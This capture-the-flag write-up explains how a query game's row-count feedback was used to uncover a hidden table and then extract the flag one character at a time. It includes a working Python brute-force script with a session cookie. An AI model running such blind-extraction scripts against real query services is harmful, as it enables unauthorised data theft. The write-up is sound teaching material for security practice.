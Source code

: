 # The Kusto Query Game

Not solved in time by Joa :(

Writeup by Joa :)

(we found the first pieces of the flag about 5 minutes before time was up)


## Challenge text
```
Let's play the Kusto Query Game!
```
> [kqlgame.ept.gg](kqlgame.ept.gg)

Visiting the page shows us the introduction page of the game:
![KQLG main page](main_page.png)


## Game flow
When we start the game, we are presented with a query input box, and a target for how many rows our query should return.
![the game page](game.png)

Simply entering `StormEvents` returns all the rows in the dataset:
![All rows](all_rows.png)
Since we guessed wrong, the game tells us how many entries we actually got, compared to how many we should have gotten. *This is a surprise tool that will help us later.*

We can try to use one of the example queries from the main page to return the correct number of rows:

![example queries](example_queries.png)

But we are told that using "take" is cheating :(

!["take" gives us "cheating is not allowed"](take.png)

However, the last one, `StormEvents | top <n> by DamageProperty`, *does* work fine :)

!["top <n>" query returns "Correct!"](top_n.png)

Doing this 5 times in a row gives you this suspiciously non-flag-looking success message:

!["Congratulations! The flag is stored in the ADX Database that this game used. You just have to look for it"](congratulations.png)

"Things that seem too good to be true..." and all that.


## Flag walkthrough
To check whether the flag is contained within any cell in the StormEvents table, we can use the query `StormData | where * contains "EPT{"`. Running this gives us 0 results, which means we should try to look elsewhere

We can find out if there are other tables in the database by using `.show tables`:

!["The row count for your query was 2 when it should have been _"](show_tables.png)

Since we get the row count as an output even in the case where we've "guessed wrong", we can see that there are two tables in the database, StormEvents and one other.


### Table enumeration
The format of the `.show tables` output table is a known standard, as per [Microsoft's documentation](https://learn.microsoft.com/en-us/kusto/management/show-tables-command).

|Output parameter|Type|Description|
|---|---|---|
|TableName|string|The name of the table.|
|DatabaseName|string|The database that the table belongs to.|
|Folder|string|The table's folder.|
|DocString|string|A string documenting the table.|

This means that we can use a `where` clause to only select tables with specific `TableName`s, as well as use operators suchs as `contains` or `startswith` to look for only part of a table name. We can for example run a query like:
```
.show tables
| where TableName != "StormEvents"
| where TableName startswith "a"
```
Since this query returns 0 rows, we can conclude that the name of the other table does not start with the letter `a`. We can then try `b`, `c`, etc. until we reach `u`, which gives us 1 row returned. We can then try `ua`, `ub` and so on until we find that the tablename starts with/is `users`.

(This is possible to automate, see [enumerate_tables.py](./enumerate_tables.py))

!["users" table name enumeration output. Time taken: 28s](table_enumeration_output.png)

Since "startswith" is case-insensitive ("startswith_cs" is the case-sensitive version), the query `users` will not return anything, but by guessing we find that `Users` in CamelCase does.

#### Improvement ideas
Instead of iterating through each letter of the alphabet for each character, it's possible to run the whole alphabet/charset through a query like:
```
.show tables
| where TableName != "StormEvents"
| where TableName contains_cs "a"
```
And then use the result of that operaton to make a smaller charset for the `startswith` query. This way, you're only checking characters that you know exist *somewhere* in the result. Likely overkill in this case though, as this script only takes about 60 seconds to complete (or about 30 if you ignore case).

### Flag enumeration
Running the following query
```
Users
| where * contains "EPT{"
```
Shows us that there are 21 rows that contain the string "EPT{" somewhere inside of any cell.

As a naïve approach, we can implement this with `contains`, and log every find that matches "EPT{" + some suffix. To ensure that we don't miss any search paths, we use a recursive implementation, so that even in the case where we find a valid next letter, we still check through all the other options at the current depth before returning.

We can also find that in addition to there being **21 rows that contain any cell that contains "EPT{"**, there are also **21 rows that contain any cell that *start swith* "EPT{"**. Technically, there could exist a situation in which the real flag only appears in the middle of a cell, but where another decoy cell in the same row just so happens to start with "EPT{". We can also find that there exists only one row **with the "}" character present**, as well as only one row where a cell **ends with "}"**, in which the same situation might be happening.

Respecting the possibility that there might exist decoy "flaglike"s in the same row as the actual flag, we can run this code:

```py
import requests

start_url = "https://kqlgame.ept.gg/start-game"
game_url = "https://kqlgame.ept.gg/game"

# taken from my browser's session token
cookie = {
    "session": "eyJsZXZlbCI6MSwic3RhcnRfdGltZSI6MTczMDc5NzgzNC40MTcwMjY4LCJ0YXJnZXRfcm93cyI6MzR9.ZynhCg.Ugw_G8KNPswmrna1fXIP52XtJ68"
}

s = requests.Session()

charset = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789, .'?!@$<>*:+=-\\/}"

def check_next_char(string):
    # refresh our token occasionally to make sure that we don't get timeout errors
    s.get(start_url, cookies=cookie)
    
    for nextchar in charset:
        data = {
            "query": f"""
            Users
            | where * contains "{string+nextchar}"
            """
        }
        response = s.post(game_url, cookies=cookie, data=data).text
        
        # first check to make sure that the query was valid/returned *something*
        # then check that it returned more than 0
        if "The row count for your query was" in response and \
        "The row count for your query was 0" not in response:
            
            print("Found next valid prefix:", string+nextchar)
            is_exact_match(string+nextchar)
            check_next_char(string+nextchar)

def is_exact_match(string):
    data = {
        "query": f"""
        Users
        | where * == "{string}"
        """
    }
    response = s.post(game_url, cookies=cookie, data=data).text
    if "The row count for your query was 0" not in response:
        print("Found valid string:", string)

if __name__ == "__main__":
    check_next_char("EPT{")

```
Which takes about 12 minutes to run, and gives the following output:

![Valid "EPT{"-strings, including EPT{b00b, EPT{c1e1, EPT{e704, and EPT{z2641a3a}](thorough_flag_enumeration.png)

(output extends beyond this screenshot)

However, by working with the assumption that *the real flag also has a closing curly bracket*, we can reduce this to about 90 seconds:
```py
// ...
    # The format string's highlighting got messed up whenever i just put in the raw "}" character.
    # 7D is simply the hex value of "}"
    f"""
    Users
    | where * contains_cs "{string+nextchar}"
    | where * contains_cs "\x7D"
    """
// ...
```

In any case, `EPT{z2641a3a}` is the only result that also has a closing bracket, and is indeed the correct flag.

#### Improvement potential

This whole thing can absolutely be sped up using multiprocessing, perhaps by generating a list of "possible next strings" and chucking a bunch of `async_apply`s at it. We did not do this. Maybe next year :)
